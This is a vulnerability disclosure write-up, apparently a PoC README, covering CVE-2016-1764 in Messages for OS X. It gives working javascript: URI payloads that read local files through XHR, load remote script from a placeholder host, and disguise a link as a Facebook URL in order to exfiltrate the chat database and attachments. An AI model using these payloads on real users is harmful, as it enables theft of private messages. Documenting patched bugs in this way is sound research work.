

# PoC Exploit Code for CVE-2016-1764
### Recovery of Plaintext iMessage Data Without Breaking Crypto


### Authors

* [Shubham Shah](https://shubh.am/) from [Bishop Fox](http://bishopfox.com/)
* [Joe DeMesy](https://github.com/moloch--) from [Bishop Fox](http://bishopfox.com/)
* [Matthew Bryant](https://thehackerblog.com/) from the [Uber Security Team](https://www.uber.com/) (formerly of [Bishop Fox](http://bishopfox.com/))

## CVE-2016-1764

**Vendor:** Apple

**Release Date:** March XX, 2016

**Patch Date:** March 21, 2016

**Systems Affected:** Messages on OSX Mountain Yosemite, El Capitan

While the majority of recent debate around Apple has been focused on cryptography, the industry and law enforcement seems to have forgotten that simpler, application-level vulnerabilities can be leveraged to forgo encryption altogether. CVE-2016-1764, which was fixed by Apple in March of 2016, is an application-layer bug that results in the remote disclosure of all message content and attachments in plaintext by exploiting the OS X iMessage client. Moreover, you do not need a graduate degree in mathematics to exploit it, nor does it require detailed knowledge of memory managment, shellcode, or intricate ASLR bypass ROP chains. In fact, it is a relatively simple bug that can be exploited by anyone with a basic knowledge of JavaScript.

## Technical TL;DR

Messages (iMessage) for OS X from Apple, implements its user interface using an embedded version of WebKit, furthermore Messages on OS X will render any URI as a clickable HTML `<a href=` link. An attacker can create a simple JavaScript URI (e.g., `javascript:`) which when clicked grants the attacker initial JavaScript execution (XSS) in the context of the application DOM. Though the embedded WebKit library used by Messages for OS X executes in an `applewebdata://` origin, an attacker can still read arbitrary files using `XMLHttpRequest` (XHR) GET requests to a `file://` URI since there is no same-origin policy (SOP) implemented. By abusing XHR to read files an attacker can upload a victim’s entire chat history and attachments to a remote server as fast as the victims Internet connect will allow; the only user interaction required is clicking on a single link in chat. Furthermore, if SMS forwarding is enabled the attacker can also recover messages sent to/from the victim's iPhone.

If you want to know all the gritty details, read on.


## Technical Details
### Messages for OS X

Messages for OS X uses an embedded version of WebKit for much of its user interface. When messages are sent or received by the application, HTML is inserted into the DOM to render the UI and any attachments/media content that has been sent. All messages sent through the application are rendered in a DOM and hence common client-side web vulnerabilities can affect the application.

When testing the Messages for OS X client, it was found that arbitrary protocols schemes were automatically converted into links and inserted into the DOM. For example, the following URIs below are all inserted as links into the WebView when messaged:

```
test://test
smb://test@test.com
file:///etc
anyurihandler://anycontentafter
```

As Messages for OS X does not implement a whitelist of accepted protocols, an attacker can send a message to a victim that contains a JavaScript URI `javascript:`, which will be converted into a clickable link on the victim's machine.

Once clicked, the embedded WebKit will dutifully execute the attacker controlled JavaScript in the current origin, for example:


Note that `%0a` (i.e. `\n`) is used to escape the JavaScript comment `//`, which is required to match the parsers linking pattern. Once the code is interpreted it resembles:

```
//bishopfox.com/research?
prompt(1)
```

Upon clicking this link, a JavaScript prompt is triggered within Messages for OS X:



However, Messages for OS X is a desktop application, not a website. Therefore the JavaScript is executed in the context of a `applewebdata://` origin:


However, the attackers code is executing in a full WebKit implementation, and therefore `XMLHttpRequest` is available at runtime. One of the key differences between an embedded version of WebKit and a web browser like Chrome or Safari is that the embedded version does not implement any same-origin policy (SOP), since it is a native desktop applciation. An attacker can take advantage of this to read files off the local filesystem without violating the same-origin policy by sending `XMLHttpRequest` GETs to `file://` URIs. The only requirement is that the attacker must know the full file path, relative file system paths (e.g. `~/.ssh/id_rsa`) cannot be used.

### Reading Files

For exmaple, the following JavaScript can be executed by the Messages application DOM to read the `/etc/passwd` file:

```
function reqListener () {
  prompt(this.responseText);
  // send back to attackers server here
}

var oReq = new XMLHttpRequest();
oReq.addEventListener("load", reqListener);
oReq.open("GET", "file:///etc/passwd");
oReq.send();
```

Converted into a URI payload the code appears as follows:

```
javascript://bishopfox.com/research?%0d%0afunction%20reqListener%20()%20%7B%0A%20%20prompt(this.responseText)%3B%0A%7D%0Avar%20oReq%20%3D%20new%20XMLHttpRequest()%3B%0AoReq.addEventListener(%22load%22%2C%20reqListener)%3B%0AoReq.open(%22GET%22%2C%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22)%3B%0AoReq.send()%3B
```

When clicked in the Messages application, the following prompt appears:


As the above vector is quite long and looks overly suspicious, it is possible to shorten the URI by dynamically loading JavaScript from a domain and including it to the DOM. For example, the following vector below injects the JavaScript from `http://example.com/1.js` into Message’s DOM:

```
javascript://bishopfox.com/research?%0a%28function%28s%29%7Bs.src%3D%27http%3A%2f%2fexample.com%2f1.js%27%3Bdocument.body.appendChild%28s%29%7D%29%28document.createElement%28%27script%27%29%29
```

The JavaScript file referenced `//example.com/1.js` in the above vector can contain arbitrary JavaScript instructions of an arbitrary length.

However, the OS X application sandbox did restricted file system access to only `~/Library/Messages/*` and some other non-user system directories such as `/etc/`.

### Stealing the Messages Database and Attachments

When messages and attachments are received by Messages on OS X they are saved within the following directory:

`/Users/<username>/Library/Messages/*`

The textual content of these messages and other metadata are stored within a SQLite database located at:

`/Users/<username>/Library/Messages/chat.db`

This database also contains the locations for all of the attachments that are located on a user's machine.

In order to steal this database, and subsequently all of the attachments ever received or sent by a victim, a more advanced attack payload is needed.

### Exploit Overview

The following steps need to be carried out before the data can be successfully exfiltrated by an attacker:

1. Gain initial JavaScript execution in the application DOM
2. Obtain the current user (again `~` cannot be used)
4. Using the username, generate a full path that for the `chat.db` file i.e. `/Users/ExampleUser/Library/Messages/chat.db`
5. Use `XMLHttpRequest` to read the `chat.db` database and query it for attachment's file paths
6. Upload the database and all attachments using `XMLHttpRequest` or WebSockets if you want realtime access.

We can determine the currently logged in user by requesting, and subsequently parsing `/Library/Preferences/com.apple.loginwindow.plist`, this file is conviently readable from within the OS X application sandbox. From here it is trivial to construct the full path to the user's `chat.db`.

Once the database file has been successfully exfiltrated, it can be passed to a custom server-side script which extracts the full paths of the attachments sent and received by the victim, found within the `attachments` table in the database.

These full paths are retrieved by the malicious JavaScript payload and then are used to exfiltrate the attachment files from the victim's machine via `XMLHttpRequest`.


Next the attacker does a little obfuscation to make the URL a little more believable:

```
javascript://www.facebook.com/photo.php?fbid=111789595853599&set=a.111055039260388.1073741826.100010676767694&type=3&theater%0A%28function%28s%29%7Bs.src%3D%27http%3A%2f%2fyourhostname%3A8888%2ff%2fpayload.js%27%3Bdocument.body.appendChild%28s%29%7D%29%28document.createElement%28%27script%27%29%29
```

If the victim were to click the above URI in the Messages for OS X application, the victim's entire chat history and all associated attachments will be sent to the attacker.


## Take Aways

_JavaScript is Everywhere_

Web application security flaws are no longer limited to only the browser but rather have found their way into native applications too. While it can be productive for developers to use web technologies such as [WebKit](https://webkit.org/), or its far more dangerous kin [nw.js](http://nwjs.io/), to build desktop applications web application security best practices must still be followed.
